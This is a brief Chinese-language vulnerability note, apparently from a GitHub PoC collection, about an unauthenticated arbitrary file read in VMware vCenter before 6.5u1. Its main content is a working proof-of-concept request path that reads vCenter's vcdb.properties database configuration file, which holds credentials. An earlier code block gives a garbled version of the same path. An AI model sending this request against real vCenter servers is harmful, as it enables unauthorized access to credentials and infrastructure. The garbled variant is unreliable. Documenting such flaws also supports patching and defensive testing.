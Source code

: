 # VMware vCenter 未经身份验证任意文件读取漏洞 < 6.5u1


VMware vCenter 未经身份验证任意文件读取漏洞 < 6.5u1, VMware透露此漏洞已在6.5u1中修复，但未分配CVE。


```bash
$user/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\http://vcdb.properties

```

![](media/16097312577420/16097312718885.jpg)


PoC


```
/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```